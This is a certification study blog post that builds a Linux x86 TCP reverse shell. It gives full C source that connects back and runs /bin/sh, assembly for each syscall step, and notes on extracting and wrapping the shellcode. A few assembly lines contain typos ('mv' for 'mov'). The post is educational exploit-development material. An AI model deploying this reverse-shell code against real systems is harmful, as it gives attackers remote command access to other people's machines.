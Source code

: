 ```yaml
---
layout: single
title: "SLAE: Custom TCP Reverse shell"
excerpt: "created for completing the requirements of the SecurityTube Linux Assembly Expert certification"
date: 2020-06-18
header:
  #image: /assets/images/SHELLCODING32.png
  thumb: /assets/images/SHELLCODING32.png
  teaser: /assets/images/SHELLCODING32.png
  teaser_home_page: true
classes: wide
categories:
  - SLAE
  - infosec
tags:
  - shellcode
  - assembly
---
```



#### This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

_*all supporting code can be found [here](https://github.com/RawrRadioMouse/SLAE_study/tree/master/Assignment_2)*_

![slae32](/assets/images/SHELLCODING32.png)
Student ID: SLAE - 1532


This assignment will see us create and examine shellcode with a Reverse TCP shell as the payload.
**What is the difference between the bind shell we created in our previous post and a reverse shell?**
Simply put, a BIND shell will open a port and start listening, when a connection is established a program (usually sh, bash, PS, cmd etc) and redirect all input and output the incoming connection. 
In a similar fashion a reverse shell will send a program over the wire to a listening port, and redirect all input.

To demonstrate I have made some modifications to my [previous C code](https://github.com/RawrRadioMouse/SLAE_study/blob/master/Assignment_1/bind_tcp_shell.c), which basically consisted of removing the entire bid, listen and accept sections, and added connect:
```
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>

int socketfd;
struct sockaddr_in servaddr;

int main() { 
	//Create socket, which returns the file descriptor so we can interact with it
    socketfd = socket(AF_INET, SOCK_STREAM, 0); //here we specify that it is an ipv4 stream type of communication and protocol is 0 (TCP/IP)

	//Initialize servaddr struct 
    servaddr.sin_family = AF_INET; //address family set to AF_INET(which is ipv4)
    servaddr.sin_port = htons(4444); //htons is neccesary so endianness does not reverse how the port is stored in memory, thus scrambling it
    servaddr.sin_addr.s_addr = inet_addr("127.0.0.1"); //htonl is neccesary so endianness does not reverse how the address is stored in memory, thus scrambling it

    //connect to remote address
    connect(socketfd, (struct sockaddr *)&servaddr, sizeof(servaddr));
    //Create new file descriptors for stdin stdout and stderror, so the client shell will recieve these from our socket 
    dup2(socketfd, 0);
    dup2(socketfd, 1);
    dup2(socketfd, 2);

	//Use execve to excecute /bin/sh from within our program
    execve("//bin/sh", NULL, NULL); //extra slash is to ensure we have to 8bit values to push onto stack later on
}
```

Just from amending the code, I have a pretty good idea on how this is going to go down. Much of the code will be the same as the [previous blog](https://rawrradiomouse.github.io/slae-1/), with the main difference being that we have to consider that some ip addresses may have x00 in them.

* __NR_socketcall	  102
    * SYS_CONNECT	3
* __NR_dup		     41
* __NR_execve		   11


![socketcall](/assets/images/SLAE_1/1.JPG)

The first arg, __domain__ will be set to AF_INET. As per our .c code, we already know what it represents (IPv4)
The second arg, __type__, will be set to SOCK_STREAM. Again we know what this does thanks to the breakdown of our .c code.
The third and final arg __protocol__ will be 0, as according to the man page this only changes under specific circumstances and at this point is beyond the scope of the exercise.

```
AF_INET		2 
SOCK_STREAM	1
```
To start converting to assembly we need to understand that syscalls get stored in EAX, with subsequent args going in EBX, ECX, EDX etc.
For socket call:
* syscall value goes in al
* function type goes in bl
* args to function go in ecx.

We need to both zero out our registers with XOR, and place our values in the lowest possible register, example for setting up socketcall below:
```
    xor eax, eax ; we do this both to create a 0x0 value and get eax ready
    push eax ; push 0x0 as third arg
    push 0x1 ; for second arg, the value of SOCK_STREAM
    push 0x2 ; first arg is AF_INET, set address family to ipv4
    xor ecx, ecx ; clear out ecx
    mov ecx, esp ; move our arg values into ecx (place a pointer to these values with an address stored in ecx)
    mv al, 102   ; we move the socketcall syscall value into al, to avoid padding
    xor ebx, ebx  ; SHELLCODE DID NOT WORK WITHOUT THIS HERE, IT WILL WORK WITH NASM BUT NOT AS SHELLCODE DUE TO REGISTER NOISE!!!
    mv bl, 1     ; we set function to 1, which is the value of socket
    int 0x80 ; call system interrupt 
    mov esi, eax ; we store the returning value of our syscall for later use in other functions
```
**IT TOOK ME A LONG TIME TO FIGURE WHY MY SHELL WOULD NOT WORK, it is because as we are sending the connection out and not waiting we need to call dup BEFORE we send the shell down the wire.**

The DUP syscall section is as it was in our bind exercise.

Essentially all we need to use DUP2 for is to copy FD 0,1 and 2 from our OLD FD into a NEW FD. I created a loop as below:

![dup](/assets/images/SLAE_1/6.JPG)
```
    xor ecx, ecx
    xor eax, eax
loop:
    mov al, 63 ; value for dup2
    int 0x80 ; call dup2, putting our zeroed value in
    inc ecx ; increase by 1
    cmp cl, 0x4 ; run through 0,1,2
    jne loop ; continue when it hits 3
```

As we see from the man page, the connect syscall follows the same structure as listen. The only difference is that we need to be mindful of nulls in the address - I opted to try and solve this issue by pushing an ip with each octet incremented by 1, only to subract again straight after.

![connect](/assets/images/SLAE_2/2.JPG)

![struct sockaddr](/assets/images/SLAE_1/2.JPG)

```
    xor ecx, ecx
    mov ecx, 0x02010180 ; push 128.1.1.2 (flipped, so it actually goes on as 2.1.1.128)
    sub ecx, 0x01010101 ; subtract 1.1.1.1
    push ecx ; push our modified address on
    push word 0x5C11 ; push on reversed value of 4444
    push word 0x2 ; push value of AF_INET
    mov ecx, esp ; store our created sockaddr struc in ecx
    push 0x10 ; push length of address on (16) third arg
    push ecx ; push our created structure on as second arg
    push esi ; push created socket fd on as first arg
    mov ecx, esp ; move our values into ecx for the syscall
    xor ebx, ebx
    mov bl, 3 ; we set function to 3, which is the value of connect
    xor eax, eax
    mov al, 102
    int 0x80
```

All that is left to do is to spawn our shell, we do so with execve
```
    xor eax, eax
    push eax

    push 0x68732f6e
    push 0x69622f2f

    mov ebx, esp ; the null and //bin/sh get moved into ebx
    push eax ; push another null onto stack
    mov edx, esp ; move the null into edx
    push ebx ; the null and //bin/sh get pushed back onto stack
    mov ecx, esp ; they then get moved into ecx
    mov al, 11
    int 0x80
```
I compiled my code and tested, reverse shell was caught and succesful:
After all this, we can see as below I was able to catch the reverse shell:

![start_bindlisten](/assets/images/SLAE_2/3.JPG)


It is time to work on our wrapper, I used [commandlinefu](https://www.commandlinefu.com/commands/view/6051/get-all-shellcode-on-binary-file-from-objdump) to extract the shellcode: 
![connect_to_shell](/assets/images/SLAE_2/4.JPG)

I took my original [python wrapper](https://github.com/RawrRadioMouse/SLAE_study/blob/master/Assignment_1/wrapper.py) and [edited it](https://github.com/RawrRadioMouse/SLAE_study/blob/master/Assignment_2/rev_wrapper.py) to make a reverse shell version.

A per screen below the script is both fool-proof and accurate.
![rev_wrapper.py](/assets/images/SLAE_2/5.JPG)

I tested my shellcode, and hit a brick wall... My shell would send back when compiled in nasm, but not with c!!
This is due to the fact I did not xor out EBX in the very beginning, this is very important when running code in c, as we do not know what the register state could end up being.

I perservered with the help from a friend, and as below, caught my shell sent from shellcode :)
![rev_wrapper.py](/assets/images/SLAE_2/6.JPG)
![rev_wrapper.py](/assets/images/SLAE_2/7.JPG)


